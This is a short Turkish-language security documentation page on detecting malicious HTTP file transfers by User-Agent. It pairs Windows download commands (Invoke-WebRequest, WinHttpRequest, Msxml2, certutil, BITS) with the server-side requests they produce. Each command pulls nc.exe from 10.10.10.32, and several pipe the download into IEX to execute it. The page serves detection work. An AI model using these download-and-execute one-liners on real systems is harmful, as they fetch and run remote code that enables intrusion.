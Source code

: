 ```yaml
---
glightbox: true
icon: material/circle-small
---
```


# Detection

HTTP istemcileri en kolay şekilde, sunucunun kendisine hangi HTTP istemcisinin (Firefox, Chrome vb.) bağlandığını tanımlamak için kullandığı User-Agent dizesi tarafından tanınır. User-Agent dizelerinin bir listesini [burada](http://useragentstring.com/pages/useragentstring.php) bulabilirsiniz.

Kötü amaçlı dosya aktarımları da User-Agent dizesi tarafından tanınabilir. Bu bölümde verilen User-Agent dizeleri yaygın HTTP aktarım tekniklerinden gözlemlenmiştir (Windows 10 ve PowerShell 5 ile test edilmiştir).

## Invoke-WebRequest - Client

```powershell
Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

## Invoke-WebRequest - Server

```text
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

## WinHttpRequest - Client

```powershell
$h = New-Object -ComObject WinHttp.WinHttpRequest.5.1; $h.open('GET', 'http://10.10.10.32/nc.exe', $false); $h.send(); IEX $h.responseText
```

## WinHttpRequest - Server

```text
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

## Msxml2 - Client

```powershell
$h = New-Object -ComObject Msxml2.XMLHTTP; $h.open('GET', 'http://10.10.10.32/nc.exe', $false); $h.send(); IEX $h.responseText
```

## Msxml2 - Server

```text
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

## Certutil - Client

```batch
certutil -urlcache -split -f http://10.10.10.32/nc.exe
```

## Certutil - Server

```text
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

## BITS - Client

```powershell
Import-Module BitsTransfer; Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:TEMP\t; $r = Get-Content $env:TEMP\t; Remove-Item $env:TEMP\t; IEX $r
```

## BITS - Server

```text
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```
